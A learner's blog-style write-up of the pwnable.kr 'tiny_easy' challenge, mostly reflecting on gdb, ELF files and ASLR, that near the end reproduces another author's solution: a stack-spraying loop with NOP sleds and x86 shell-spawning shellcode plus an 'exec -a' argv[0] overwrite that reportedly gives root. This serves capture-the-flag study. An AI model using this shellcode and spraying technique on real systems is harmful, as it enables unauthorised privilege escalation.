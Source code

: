 #**tiny_easy**

*I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.*

———————————————–

This was the first Rookiss-level challenge I attempted, and I have been struggling with it for about two weeks now. It involves going into gdb and observing the memory to determine what to do next, but i wasn't able to get past that.

Initially, the challenge asks you to ssh into a pwnable server to start. Going into the server and looking at the directory, we see the following:

![img1](images/img1.png)

Pretty standard so far. Trying to run ./tiny_easy however, wasn't so easy.
![img2](images/img2.png)

Whatever input I tried to give the program, it would always end up as a segmentation fault.

So the natural conclusion I had was to pop it into gdb and see if I could get any more details about what was happening there. Running gdb….
![img3](images/img3.png)


.. gave me absolutely nothing.
![img4](images/img4.png)

Running a backtrace on the crashed program also yielded nothing.


I needed to find something else, because I was just getting nowhere. I found a tutorial from sheepshellcode.com, which gave me a few more ideas of where to start looking.

Firstly, I ran a file command on the tiny_easy file. I got this for the output:
![img5](images/img5.png)

I actually learned a couple things from this. Firstly, I had never heard of an ELF executable, and it turns out that ELF stands for "Executable and Linkable Format". Within Linux, it is the common standard file format for executable files.
![img6](images/img6.png)


As that stands, it didn't really tell me much about the file itself, knowing it is just a common standard.

The second thing in the output that was foreign to me was the "statically linked" part. I had honestly never heard of the team before, so I did some googling and read a bit more. A statically linked program is "a set of routines, external functions and variables which are resolved in a caller at compile-time and copied into a target application by a compiler, linker or binder, producing an object-file and a stand-alone executable". From what i can tell, this essentially means that any references to external functions or objects get added in during compile time, so that the executable is a stand-alone package. This would differ from something like a translated language, which runs the program line-by-line.


Once I had done this, I continued reading and found that the tutorial used a command called readelf, which essentially read the header of the file.
![img7](images/img7.png)


This gave a bit more information about the file, but still didn't really help. I used gdb to set a breakpoint at the Entry point address that was given in the findelf command. When I ran it with gdb, the program hadn't segfaulted yet, which was kind of expected since the program wouldn't have started.


I was again stuck, and truthfully reading through his solution I'm not sure if I woiuld be able to get it without quite a bit more research and practice into doing these kinds of challenges.

He eventually finds that by modifying the value of the first 4 characters of argv[0] with a exec -a command will allow us to change the value of the register eip.

He introduces another technique called "heap spraying" that I had never heard of, but which makes sense to me based on the write-up. ASLR (Address Space Layout Randomisation) is a feature that aims to address exploits such as these by randomising the actual location of the program in memory. Therefore, it is hard to make an attack that changes addresses since the attacker does not know where it will be in memory. Heap spraying tries to get around this by putting the malicious code or address in as many places as possible, combined with nops. nops are a blank instruction, and will move to the next instruction if they are hit. Therefore, with this method the chance of hitting the code by random is greatly increased, (and is the reason why the method is called "spraying", since we are simply guessing where it would be).


The tutorial tries spraying the stack instead of the heap, using the following exploit:

|-------EXPLOIT-------|
```
for i in `seq 1 100`;
do
export A_$i=$(python -c 'print "\x90"*4096 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"');
done
```

Once the stack is sprayed, the following exploit is run, and on the second time hit one of the malicious shellcode operations and gave root access.

```
exec -a $(python -c 'print "\x90\xd5\x9c\xff"') ./tiny_easy
```

This was definitely way out of my league, having never heard of many of the tools and techniques used, but I am glad that I attempted it and did some research. I actually learnt quite a bit from looking at a solution, and I will make sure to try a challenge that involves something like heap/stack spraying in the future. 

---

*23/7/2019*